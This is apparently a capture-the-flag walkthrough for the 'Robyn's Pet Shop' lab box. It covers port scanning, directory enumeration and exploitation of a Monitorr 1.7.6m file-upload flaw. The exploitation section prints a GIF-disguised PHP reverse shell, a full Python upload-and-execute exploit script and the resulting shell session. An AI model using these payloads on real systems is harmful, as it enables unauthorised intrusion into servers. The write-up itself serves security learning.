Completed Parallel DNS resolution of 1 host. at 13:31, 0.01s elapsed
Initiating Connect Scan at 13:31
Scanning ec2-54-155-53-195.eu-west-1.compute.amazonaws.com (34.253.63.1) [65535 ports]
Discovered open port 22222/tcp on 34.253.63.1
Discovered open port 8096/tcp on 34.253.63.1
Discovered open port 8000/tcp on 34.253.63.1
Completed Connect Scan at 15:18, 6431.27s elapsed (65535 total ports)

Nmap scan report for ec2-54-155-53-195.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up, received user-set (0.052s latency).
Scanned at 2021-04-27 13:31:29 CEST for 6431s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT      STATE SERVICE    REASON
8000/tcp  open  http-alt   syn-ack
8096/tcp  open  unknown    syn-ack
22222/tcp open  easyengine syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 6431.51 seconds
```

```sh
$ nmap -p 80,443,21,22,8000,8096,22222 -sC -sV -Pn -vv 34.253.63.1

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 15:32 CEST
Scanning ec2-54-155-53-195.eu-west-1.compute.amazonaws.com (34.253.63.1) [7 ports]
Discovered open port 22/tcp on 34.253.63.1
Discovered open port 80/tcp on 34.253.63.1
Discovered open port 443/tcp on 34.253.63.1
Discovered open port 8000/tcp on 34.253.63.1
Discovered open port 8096/tcp on 34.253.63.1
Discovered open port 21/tcp on 34.253.63.1
Discovered open port 22222/tcp on 34.253.63.1
Completed Connect Scan at 15:32, 0.07s elapsed (7 total ports)
Initiating Service scan at 15:32
Scanning 7 services on ec2-54-155-53-195.eu-west-1.compute.amazonaws.com (34.253.63.1)
Completed Service scan at 15:34, 88.55s elapsed (7 services on 1 host)

Nmap scan report for ec2-54-155-53-195.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up, received user-set (0.058s latency).
Scanned at 2021-04-27 15:32:47 CEST for 107s

PORT      STATE SERVICE  REASON  VERSION
21/tcp    open  ftp      syn-ack vsftpd 3.0.3
22/tcp    open  ssh      syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:b2:81:be:e0:bc:a7:86:39:39:82:5b:bf:e5:65:58 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3op12UwFIehC/VLx5tzBbmCUO/IzJlyueCj1/qP7tq3DcrBu9iQbC1gYemElU2FhqHH2KQr9MFrWRJgU4dH0iQOFld1WU9BNjfr6VcLOI+flLQstwWf1mJXEOdDjA98Cx+blYWG62qwXLiW+aq2jLfIZkVjJlp7OueNeocxE0P7ynTqJIadMfeNqNZ1Jc+s7aCBSg0NRSh0FsABAG+BSFhybnKXtApc+RG0QQ3vFpnU0k0PVZvg/qU/Eb6Oimm67d8hjclPbPpQoyvsdyOQG7yVS9eIglTr00ddw2Jn8wrapOa4TcBJGu9cgSgITHR8+htJ1LLj3EtsmJ0pErEv0B
80/tcp    open  http     syn-ack Apache httpd 2.4.29
|_http-favicon: Unknown favicon MD5: 315D6EC647C8F073C8B871B95607A1F6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Web Threat Blocked
|_http-trane-info: Problem with XML parsing of /evox/about
443/tcp   open  ssl/http syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Robyn&#039;s Pet Shop
| ssl-cert: Subject: commonName=robyns-petshop.thm/organizationName=Robyns Petshop/stateOrProvinceName=South West/countryName=GB/localityName=Bristol/emailAddress=robyn@robyns-petshop.thm
| Subject Alternative Name: DNS:robyns-petshop.thm, DNS:monitorr.robyns-petshop.thm, DNS:beta.robyns-petshop.thm, DNS:dev.robyns-petshop.thm
| Issuer: commonName=robyns-petshop.thm/organizationName=Robyns Petshop/stateOrProvinceName=South West/countryName=GB/localityName=Bristol/emailAddress=robyn@robyns-petshop.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-27T09:07:12
| Not valid after:  2022-04-27T09:07:12
| MD5:   5437 dee1 fab8 11a5 c3c7 7621 2dde 1343
| SHA-1: 245e d5eb bf56 3220 f29d cfb2 a8ed c24a 7a26 2b45
| -----BEGIN CERTIFICATE-----
|... cut for clarity 
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
8000/tcp  open  http-alt syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 15
|_    Request
|_http-title: Web Threat Blocked
8096/tcp  open  unknown  syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     Cache-Control: no-store, no-cache, must-revalidate
|     Content-type: text/html; charset=utf-8
|     Pragma: no-cache
|     Expires: 0
|     Connection: close
|     Referrer-Policy: no-referrer-when-downgrade
|     Content-Length: 8962
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8" ></meta>
|     <title ids="block_page.title">Web Threat Blocked</title>
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Date: Tue, 27 Apr 2021 13:32:52 GMT
|     Server: Kestrel
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 302 Found
|     Connection: close
|     Date: Tue, 27 Apr 2021 13:32:52 GMT
|     Server: Kestrel
|     Content-Length: 0
|     Location: /web/index.html
|   HTTPOptions: 
|     HTTP/1.1 302 Found
|     Connection: close
|     Date: Tue, 27 Apr 2021 13:32:53 GMT
|     Server: Kestrel
|     Content-Length: 0
|     Location: /web/index.html
|   Help, Kerberos, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Date: Tue, 27 Apr 2021 13:33:08 GMT
|     Server: Kestrel
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 505 HTTP Version Not Supported
|     Connection: close
|     Date: Tue, 27 Apr 2021 13:32:53 GMT
|     Server: Kestrel
|_    Content-Length: 0
22222/tcp open  ssh      syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:99:92:52:8e:73:ed:91:01:d3:a7:a0:87:37:f0:4f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpLAsRYbJYyJ+bS8pAi+HpQupaD+Oo76UbITMFLP+pZyxM5ChxwyPbCYKIitboOoa3PWRe6V4UjBcOPtNujmv2tjCcETv/tp2QyuHPW6Go6ZzFDn0V8SUGhWIqwLge79Yp9FwG7y9tUxqnViQCJBfWtY5kJh11Iy/X4Arg1ifiT9FAExpVt3fgZl3HN6bxwyfFIQfxVqySgdQxSgqpVTU4Kc3pkZM1UL+c+kzfCYwiNJL0WHAYNl3u77H+Lp5J371BSJTWpaNS/bkS2KSqG/DPafCg4qhOn/rjDldHtQ3Eukcj0AGg/jBYbrYgAhsBXLJbhHTNTt4zrQe5sRArZ8ab
|   256 5a:c0:cc:a1:a8:79:eb:fd:6f:cf:f8:78:0d:2f:5d:db (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHcGmMvzfmx0EHLv5MLqqn0a4WVxxU7dcNq0F03HIZIY002BsPtaEXkbkcn5FdDsjDGuBWq+1JGB/xDI5py485o=
|   256 0a:ca:b8:39:4e:ca:e3:cf:86:5c:88:b9:2e:25:7a:1b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFpTk+WaMxq8E5ToT9RI4THsaxdarA4tACYEdoosbPD8
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8000-TCP:V=7.91%I=7%D=4/27%Time=6088128B%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,3F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x2
SF:015\r\n\r\n400\x20Bad\x20Request");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
...
Service Info: Host: robyns-petshop.thm; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:34
Completed NSE at 15:34, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:34
Completed NSE at 15:34, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:34
Completed NSE at 15:34, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.65 seconds
```

Alright, two more ports to check.

## Easyengine (:22222)

```sh
$ searchsploit easyengine             

Exploits: No Results
Shellcodes: No Results
```

I often don't know what to do with SSH apart from searching for vulnerabilities with `searchsploit`, so let's check that 8096 website.

## Website (:8096)



Interesting. We can immediately see the version number and in the meta tags the short description of what Jellyfin is.

* Jellyfin-Web 10.7.2
* The Free Software Media System

I've googled the name and discovered that Jellyfin is a open-source Github project. It seems that we have a web interface for the that on port 8096.

Going back to the website and look for the console outputs, network traffic and storage usage.

### Local Storage



```text
_deviceId2:"TW96aWxsYS81LjAgKFgxMTsgTGludXggeDg2XzY0OyBydjo3OC4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94Lzc4LjB8MTYxOTUzMDgxOTcyMw11"

jellyfin_credentials:"{"Servers":[{"DateLastAccessed":1619530821206,"LastConnectionMode":2,"ManualAddress":"http://34.253.63.1:8096","manualAddressOnly":true,"Name":"petshop","Id":"b6c698509b83439992b3e437c87f7fb5","LocalAddress":"http://10.10.184.247:8096"}]}"
```

```text
ApiClient deviceId: TW96aWxsYS81LjAgKFgxMTsgTGludXggeDg2XzY0OyBydjo3OC4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94Lzc4LjB8MTYxOTUzMjMzODUzMA11
```

Ohh here is something we can take advantage of right away - internal IP. Do you remember how I struggled with the throttling when doing enumerations?

Let's do it:

```sh
$ gobuster dir -w /usr/wl/dirbuster-m.txt -u https://10.10.184.247 -k     

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.184.247
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/wl/dirbuster-m.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/27 17:17:19 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 318] [--> https://10.10.184.247/content/]
/themes               (Status: 301) [Size: 317] [--> https://10.10.184.247/themes/] 
/business             (Status: 401) [Size: 461]                                     
/assets               (Status: 301) [Size: 317] [--> https://10.10.184.247/assets/] 
/plugins              (Status: 301) [Size: 318] [--> https://10.10.184.247/plugins/]
/vendor               (Status: 301) [Size: 317] [--> https://10.10.184.247/vendor/] 
/config               (Status: 301) [Size: 317] [--> https://10.10.184.247/config/] 
/LICENSE              (Status: 200) [Size: 1085]                                    
/server-status        (Status: 403) [Size: 279]                                     
                                                                                    
===============================================================
2021/04/27 17:35:35 Finished
===============================================================
```

```sh
$ gobuster dir -w ./dirbuster-m-8000.txt -u http://10.10.184.247:8000 -k --exclude-length 422

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.184.247:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ./dirbuster-m-8000.txt
[+] Negative Status codes:   404
[+] Exclude Length:          422
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/27 17:15:16 Starting gobuster in directory enumeration mode
===============================================================
                                  
===============================================================
2021/04/27 17:33:18 Finished
===============================================================

```

```sh
$ gobuster dir -w /usr/wl/dirbuster-m.txt -u http://10.10.184.247:8096

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.184.247:8096
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/wl/dirbuster-m.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/27 17:18:09 Starting gobuster in directory enumeration mode
===============================================================
/users                (Status: 401) [Size: 0]
/health               (Status: 200) [Size: 7]
/plugins              (Status: 401) [Size: 0]
/packages             (Status: 401) [Size: 0]
/Health               (Status: 200) [Size: 7]
/items                (Status: 401) [Size: 0]
/channels             (Status: 401) [Size: 0]
/collections          (Status: 405) [Size: 0]
/artists              (Status: 401) [Size: 0]
/sessions             (Status: 401) [Size: 0]
/devices              (Status: 401) [Size: 0]
/Users                (Status: 401) [Size: 0]
/HEALTH               (Status: 200) [Size: 7]
/trailers             (Status: 401) [Size: 0]
/Plugins              (Status: 401) [Size: 0]
/playlists            (Status: 405) [Size: 0]
/persons              (Status: 401) [Size: 0]
/years                (Status: 401) [Size: 0]
/genres               (Status: 401) [Size: 0]
/Channels             (Status: 401) [Size: 0]
/Artists              (Status: 401) [Size: 0]
/Sessions             (Status: 401) [Size: 0]
/Trailers             (Status: 401) [Size: 0]
/Packages             (Status: 401) [Size: 0]
/studios              (Status: 401) [Size: 0]
/repositories         (Status: 401) [Size: 0]
/Studios              (Status: 401) [Size: 0]
/Genres               (Status: 401) [Size: 0]
/Devices              (Status: 401) [Size: 0]
/Playlists            (Status: 405) [Size: 0]
/Items                (Status: 401) [Size: 0]
/Repositories         (Status: 401) [Size: 0]
/Persons              (Status: 401) [Size: 0]
/Years                (Status: 401) [Size: 0]
                                             
===============================================================
2021/04/27 17:36:40 Finished
===============================================================
```

Well, good job Muri - nothing interesting here :P.

But we acquired some IDs in that Local Storage:

* `_deviceId2:"**TW96aWxsYS81LjAgKFgxMTsgTGludXggeDg2XzY0OyBydjo3OC4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94Lzc4LjB8MTYxOTUzMDgxOTcyMw11**"`

* `jellyfin_credentials:"{"Servers":[{"DateLastAccessed":1619530821206,"LastConnectionMode":2,"ManualAddress":"http://34.253.63.1:8096","manualAddressOnly":true,"Name":"petshop","Id":"**b6c698509b83439992b3e437c87f7fb5**","LocalAddress":"http://10.10.184.247:8096"}]}"`

And again - trying using them on the `:8000` lead to nowhere.

Also, `deviceId` decoded from base64:

```text
Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0|1619530819723
u
```

### Console

```text
defining core routes main.0d15abbc010620712255.bundle.js:2:962449
defining route: /addserver.html 
defining route: /selectserver.html 
defining route: /login.html 
defining route: /forgotpassword.html 
defining route: /forgotpasswordpin.html 
defining route: /mypreferencesmenu.html 
defining route: /myprofile.html 
defining route: /mypreferencesdisplay.html 
defining route: /mypreferenceshome.html 
defining route: /mypreferencesquickconnect.html 
defining route: /mypreferencesplayback.html 
defining route: /mypreferencessubtitles.html 
defining route: /dashboard.html 
defining route: /dashboardgeneral.html 
defining route: /networking.html 
defining route: /devices.html 
defining route: /device.html 
defining route: /quickConnect.html 
defining route: /dlnaprofile.html 
defining route: /dlnaprofiles.html 
defining route: /dlnasettings.html 
defining route: /addplugin.html 
defining route: /library.html 
defining route: /librarydisplay.html 
defining route: /edititemmetadata.html 
defining route: /encodingsettings.html 
defining route: /log.html 
defining route: /metadataimages.html 
defining route: /metadatanfo.html 
defining route: /notificationsetting.html 
defining route: /notificationsettings.html 
defining route: /playbackconfiguration.html 
defining route: /availableplugins.html 
defining route: /repositories.html 
defining route: /home.html 
defining route: /search.html 
defining route: /list.html 
defining route: /details 
defining route: /livetv.html 
defining route: /livetvguideprovider.html 
defining route: /livetvsettings.html 
defining route: /livetvstatus.html 
defining route: /livetvtuner.html 
defining route: /movies.html 
defining route: /music.html 
defining route: /installedplugins.html 
defining route: /scheduledtask.html 
defining route: /scheduledtasks.html 
defining route: /serveractivity.html 
defining route: /apikeys.html 
defining route: /streamingsettings.html 
defining route: /tv.html 
defining route: /useredit.html 
defining route: /userlibraryaccess.html 
defining route: /usernew.html 
defining route: /userparentalcontrol.html 
defining route: /userpassword.html 
defining route: /userprofiles.html 
defining route: /wizardremoteaccess.html 
defining route: /wizardfinish.html 
defining route: /wizardlibrary.html 
defining route: /wizardsettings.html 
defining route: /wizardstart.html 
defining route: /wizarduser.html 
defining route: /video 
defining route: /queue 
defining route: /configurationpage 
defining route: 
defining route: index.html
```

None of them were helpful.

### Network traffic

#### `/Users/authenticatebyname` (POST)

Request data:

```json
{"Username":"petshop","Pw":"petshop"}
```

Response:

```text
Accept
  application/json
  Content-Type
  application/json

  X-Emby-Authorization
  MediaBrowser Client="Jellyfin Web", Device="Firefox", DeviceId="TW96aWxsYS81LjAgKFgxMTsgTGludXggeDg2XzY0OyBydjo3OC4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94Lzc4LjB8MTYxOTUzMDgxOTcyMw11", Version="10.7.2"
```

Try with `curl`:

```sh
$ curl -H "Content-Type: application/json" -d "{\"Username\":\"robyn\",\"Pw\":\"robyn\"}"  http://10.10.184.247:8096/Users/authenticatebyname -v -c-

*   Trying 10.10.184.247:8096...
* Connected to 10.10.184.247 (10.10.184.247) port 8096 (#0)
> POST /Users/authenticatebyname HTTP/1.1
> Host: 10.10.184.247:8096
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Type: application/json
> Content-Length: 33
> 
* upload completely sent off: 33 out of 33 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 401 Unauthorized
< Date: Tue, 27 Apr 2021 19:15:37 GMT
< Content-Type: text/plain
< Server: Kestrel
< Transfer-Encoding: chunked
< X-Response-Time-ms: 24
< 
* Connection #0 to host 10.10.184.247 left intact
Error processing request.# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

```

No cookies set.

#### `/Users/ForgotPassword` (POST)  

```json
{"EnteredUsername":""}
```


#### `/System/Info/Public` (GET)

```json
{
  "LocalAddress": "http://10.10.184.247:8096",
  "ServerName": "petshop",
  "Version": "10.7.2",
  "ProductName": "Jellyfin Server",
  "OperatingSystem": "Linux",
  "Id": "b6c698509b83439992b3e437c87f7fb5",
  "StartupWizardCompleted": true
}
```

**Server Name: petshop**

#### `/users/public` (GET)

`[]`

#### `/QuickConnect/Status` (GET)

`"Unavailable"`

#### `/Branding/Configuration` (GET)

`{}`

## Hosts entry

> This is the crucial step that was blocking me from progressing further. Kudos for [John Hammond video](https://www.youtube.com/watch?v=g2CnIgjHeX8) that showed me that the same IP address can resolve to multiple domains **hosting different services**. I was living in belief that multiple hostnames under same IP are used as aliases.

That's a lot of decoys. Let's add domains we've found in the certificate to the `/etc/hosts` and see what is hiding there.

```sh
#/etc/hosts

10.10.184.247 robyns-petshop.thm monitorr.robyns-petshop.thm beta.robyns-petshop.thm dev.robyns-petshop.thm
```

| | |
|---|---|
|robyns-petshop.thm | -> `:443`
|monitorr.robyns-petshop.thm | see below
|beta.robyns-petshop.thm | -> `:8000` but with SSL
|dev.robyns-petshop.thm | -> `:443`

## `monitorr.robyns-petshop.thm`


This is a Monitorr application [v1.7.6m](https://github.com/Monitorr/Monitorr/releases/tag/1.7.6m).

Cookies:

* `isHuman: 1`

The latest version now is 1.7.7, so I'm reading through its release notes to see if something relevant for us got fixed (which means it is present in ToE's Minitorr installation).

```text
16. Add: Form validation to user input on _register form.
...
24. FIX: Form submit post data
```

BUT, walking through source code we have `https://github.com/Monitorr/Monitorr/blob/master/assets/php/upload.php` file, so let's try if it is available.

```text
ERROR: is not an image or exceeds the webserver’s upload size limit.
ERROR: ../data/usrimg/ already exists.
ERROR: was not uploaded.
```

Yup, it exists and is accessible. What is in the `assets/data/userimg`?



Ok, so if we can upload the reverse shell code with `upload.php` we can get inside the box.

# Exploiting

```sh
$ curl -X POST -d  -v https://monitorr.robyns-petshop.thm/assets/php/upload.php -k

<div id='uploadreturn'>You are an exploit.</div><div id='uploaderror'>ERROR: ../data/usrimg/ already exists.</div><div id='uploaderror'>ERROR:  was not uploaded.</div></div>   
```

Oh yeah, the cookie.

```sh
$ curl -X POST -d  -v -b "isHuman=1" https://monitorr.robyns-petshop.thm/assets/php/upload.php -k

<div id='uploadreturn'><div id='uploaderror'>ERROR:  is not an image or exceeds the webserver’s upload size limit.</div><div id='uploaderror'>ERROR: ../data/usrimg/ already exists.</div><div id='uploaderror'>ERROR:  was not uploaded.</div></div>    
```

Uploading reverse PHP shell.

> Look for the reverse shells cheat sheet in _Additional readings_ 

```sh
$ curl -X POST --data @pshell.php -b "isHuman=1" https://monitorr.robyns-petshop.thm/assets/php/upload.php -k 

<div id='uploadreturn'><div id='uploaderror'>ERROR:  is not an image or exceeds the webserver’s upload size limit.</div><div id='uploaderror'>ERROR: ../data/usrimg/ already exists.</div><div id='uploaderror'>ERROR:  was not uploaded.</div></div>   
```

In the `/upload.php` we can read:

```php
$check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);

 #...

if($check !== false) {
        echo "File " . $rawfile . " is an image: " . $check["mime"] ;
            echo "<br>";
        $uploadOk = 1;
    } 
    
else {
    echo "<div id='uploaderror'>";
        echo "ERROR: " . $rawfile .  " is not an image or exceeds the webserver’s upload size limit.";
    echo "</div>";
    $uploadOk = 0;
}
```

So it uses `getimagesize` function to determine if the file is an image..

From [PHP Manual](https://www.php.net/manual/en/function.getimagesize.php):

>**Caution** This function expects filename to be a valid image file. If a non-image file is supplied, it may be incorrectly detected as an image and the function will return successfully, but the array may contain nonsensical values.
>Do not use getimagesize() to check that a given file is a valid image. Use a purpose-built solution such as the Fileinfo extension instead.

And in the [comment](https://www.php.net/manual/en/function.getimagesize.php#116976):

> Note: getimage size doesn't attempt to validate image file formats
>It is possible for malformed GIF images to contain PHP and still have valid dimensions.
>Programmers need to ensure such images are validated by other tools, or never treated as PHP or other executable types (enforcing appropriate extensions, avoiding user controlled renaming, restricting uploaded images to areas of the website where PHP is not enabled).
>http://ha.ckers.org/blog/20070604/passing-malicious-php-through-getimagesize/

Url is down, but on the [StackOverflow](https://stackoverflow.com/a/27899862):

> Ok, something like this should do the trick:
```text
GIF89a<?php
echo 'hi';
```

Let's try this payload - with the corrected syntax. Notice the GIF [Magic Number](https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-content-type-and-magic-number) at the beginning of the file.

```php
#pshell.gif
GIF89a<?php
$sock=fsockopen("XX.XX.XX.XXX",4445);
$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

```sh
$ curl -F "fileToUpload=@pshell.gif" -b "isHuman=1" https://monitorr.robyns-petshop.thm/assets/php/upload.php -k

<div id='uploadreturn'>File pshell.gif is an image: <br><div id='uploadok'>File pshell.gif has been uploaded to: ../data/usrimg/pshell.gif</div></div>             
```

But the file with the `*.gif` extension won't be parsed as a PHP. At this point I've tried many approaches from the [Hacktricks File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload). None of them succeeded, so I started searching for some known exploits.

```sh
$ searchsploit monitorr
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Monitorr 1.7.6m - Authorization Bypass                                               | php/webapps/48981.py
Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)                            | php/webapps/48980.py
------------------------------------------------------------------------------------- ---------------------------------
```

Well, well, well. Vulnerable version is 1.7.6m - the same version we have on the box. Let's see the second one (because of _Unauthenticated_). Description of the vulnerability in the _Additional readings_.

## `upload_shell.py`

```python
import requests
import os
import sys

host = "https://monitorr.robyns-petshop.thm"
url = host + "/assets/php/upload.php"
filename = "file.gif.pHp"
lhost = "XX.XX.XX.XXX"
lport = "443"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": host, "Connection": "close", "Referer": host}

data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\""+filename+"\"\r\nContent-Type: image/png, text/plain, application/octet-stream\r\n\r\nGIF89a<?php $sock=fsockopen(\""+lhost+"\","+lport+");$proc=proc_open(\"/bin/sh -i\", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

r = requests.post(url,cookies={"isHuman":"1"}, headers=headers, data=data, verify=False)

# This part is unnecessary as the script can be invoked by browsing it in the browser (as long as the file is still there)

print ("A shell script should be uploaded. Now we try to execute it")
url = host + "/assets/data/usrimg/"+filename.lower()
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
s =requests.get(url, headers=headers, verify=False)              
```

If you compare this and original version of the script you will find the following differences (apart from extracting the variables):

### File name
File that is being uploaded is renamed to `*.gif.pHp`. In the first version of the machine (launched during the event) it can be `*.phtml`. Muri patched that later, so I could only get with the file that have that uppercased `pHp` extension.

### SSL verification skip
Monitorr is accessed via HTTPS protocol and browser warns about the certificate. The only way to get past this is to set `verify` to `False`. You did see similar thing done to `curl` before - `curl` is using `-k` for skipping SSL verification.

### You are an exploit
Of course `isHuman` cookie have to be set to `1`.

### Content-Type
Getting the example from Hacktrick's [Bypassing Content-Type](https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-content-type-and-magic-number), I'm sending the compound `Content-Type: image/png, text/plain, application/octet-stream`.

### Magic Number
Original GIF header looked overcomplicated, so I went with simple `GIF89a`

### PHP Reverse Shell
For the reverse shell I'm using the code I've been using on other boxes before (sourced from [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)).

### Port
Although the port is not specified in the original PoC, I've tried with 4444, 4445 and I couldn't make it work. What solved the issue was using the _legit_ port like 443.

### Reading the file
This part is unnecessary if the reverse shell script will be left on the system, as it can be executed requesting the file ex. by browsing the file from the browser.

## Execution

After the script is prepared, and it is verified that it is indeed uploading, we are making ourselves a nice reverse shell with the `netcat`.

```sh
$ nc -lvnp 443

listening on [any] 443 ...
```

After the reverse shell is requested:

```text
$ nc -lvnp 443

listening on [any] 443 ...
connect to [XX.XX.XX.XXX] from (UNKNOWN) [10.10.184.247] 59024
/bin/sh: 0: can't access tty; job control turned off
$ ls
file.png.php
file.png.php5
file2.png.php
file3.png.php
file4.gif.php
file4.png.php
file5.gif.php
file6.gif.php
file7.gif.php
file8.gif.php
she_ll2.gif
usrimg.png
```

We're in!

Time for stabilizing the shell a bit (I didn't find the way to fully stabilize `zsh` shell yet) and clean up.

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
find . -type f -not -name '*.png' -delete
alias ls="ls -lah"
```

Let's look around a bit.

# www-data access

```sh
/www-data@petshop:/var/www/monitorr$ ls -la
ls -la
total 184
drwxr-xr-x  4 www-data www-data  4096 Apr 11 14:24 .
drwxr-xr-x  5 root     root      4096 Apr 30 16:12 ..
-rw-r--r--  1 www-data www-data   355 Apr 11 00:07 ISSUE_TEMPLATE.md
-rw-r--r--  1 www-data www-data  1086 Apr 11 00:07 LICENSE.txt
-rw-r--r--  1 www-data www-data  5086 Apr 11 00:07 README.md
-rw-r--r--  1 www-data www-data    25 Apr 11 00:07 _config.yml
drwxr-xr-x 11 www-data www-data  4096 Apr 11 00:07 assets
-rw-r--r--  1 www-data www-data  4655 Apr 11 14:20 changelog.html
drwxr-xr-x  2 www-data www-data  4096 Apr 11 00:11 data
-rw-r--r--  1 www-data www-data   915 Apr 11 00:11 datamonitorr_data_directory.txt
-rw-r--r--  1 www-data www-data    52 Apr 11 00:11 datamonitorr_install_path.txt
-rw-r--r--  1 www-data www-data   577 Apr 11 14:22 dataservices_settings-data.json
-rw-r--r--  1 www-data www-data   356 Apr 11 00:11 datasite_settings-data.json
-rw-r--r--  1 www-data www-data   217 Apr 11 00:11 datauser_preferences-data.json
-rw-r--r--  1 www-data www-data  8192 Apr 11 00:12 datausers.db
-rw-r--r--  1 www-data www-data 41160 Apr 11 00:07 favicon.ico
-rw-r--r--  1 www-data www-data 16862 Apr 11 00:07 index.min.php
-rw-r--r--  1 www-data www-data 17732 Apr 11 14:23 index.php
-rw-r--r--  1 www-data www-data    87 Apr 11 00:07 robots.txt
-rw-r--r--  1 www-data www-data 19318 Apr 11 14:24 settings.php
-rw-r--r--  1 www-data www-data   352 Apr 11 00:07 webmanifest.json
www-data@petshop:/var/www/monitorr$ cat datausers.db
cat datausers.db
����ktableusersusersCREATE TABLE `users` (
                        `user_id` INTEGER PRIMARY KEY,
                        `user_name` varchar(64),
                        `user_password_hash` varchar(255),
